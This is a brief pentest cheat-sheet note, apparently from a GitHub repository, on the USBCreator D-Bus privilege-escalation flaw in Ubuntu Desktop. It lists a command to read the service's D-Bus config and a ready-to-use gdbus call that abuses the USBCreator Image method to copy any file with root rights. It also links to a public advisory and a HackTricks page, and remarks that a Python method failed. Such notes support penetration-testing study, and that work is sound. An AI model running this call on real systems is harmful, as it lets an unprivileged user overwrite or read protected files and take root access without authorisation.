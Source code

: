 # usbcreator

### USBCreator Privilege Escalation

d-bus command injection

```bash
# config file path
cat /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf

https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/
# makes a copy of file
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image 'FROM-FILE' 'TO-FILE' true

# py method didn't work
https://book.hacktricks.xyz/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation
```
